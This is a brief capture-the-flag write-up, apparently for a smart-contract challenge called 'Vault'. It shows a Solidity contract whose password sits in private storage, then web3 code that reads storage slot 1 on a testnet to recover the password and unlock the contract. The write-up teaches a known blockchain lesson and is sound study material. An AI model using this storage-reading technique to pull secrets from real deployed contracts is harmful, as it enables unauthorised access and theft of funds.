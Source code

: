 # Vault
```javascript
pragma solidity ^0.4.18;
 
contract Vault {
  bool public locked;
  bytes32 private password;
 
  function Vault(bytes32 _password) public {
    locked = true;
    password = _password;
  }
 
  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

This challenge ask we to change `locked` into false, this might need to call `unlock()` with right password.

Although, password is declaired as private in this challenge, according to all data store on blockchain, we still can use web3 to ask target blockchain the storage. 

```javascript
web3Provider = new Web3.providers.HttpProvider('https://ropsten.infura.io/');
web3 = new Web3(web3Provider);
web3.toAscii(web3.eth.getStorageAt(contract.address,1))
contract.unlock('/*the password you get from ropsten testing network*/')
contract.locked()
```